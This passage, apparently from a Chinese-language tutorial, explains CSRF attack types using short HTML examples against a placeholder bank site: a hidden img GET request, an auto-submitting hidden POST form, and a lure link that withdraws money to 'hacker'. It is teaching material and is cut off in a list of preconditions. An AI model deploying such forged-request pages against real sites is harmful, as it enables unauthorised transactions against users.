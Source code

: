 [图片来自](https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/) 





## CSRF攻击类型

#### GET类型

img标签 中藏着的script。

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点</h1>
    <img src="https://www.bank.com/withdraw?amount=1000?for=hacker">
  </body>
</html>

黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 就被转移到黑客的账户上去了。
```

#### POST类型

当发现接口只支持POST请求，那就模拟一个POST攻击

```html
<form action="http://bank.com/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script> 

访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。
```

#### 引诱用户点击

a标签，各种诱惑性的信息

```html
<a href="http://bank.com/withdraw?amount=1000&for=hacker" taget="_blank">重磅消息！！<a/>
  
只要用户点击了，就会被攻击成功
```



## 必要条件才能触发CSRF

与 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击

- 目标站点一定要有 CSRF 漏洞；
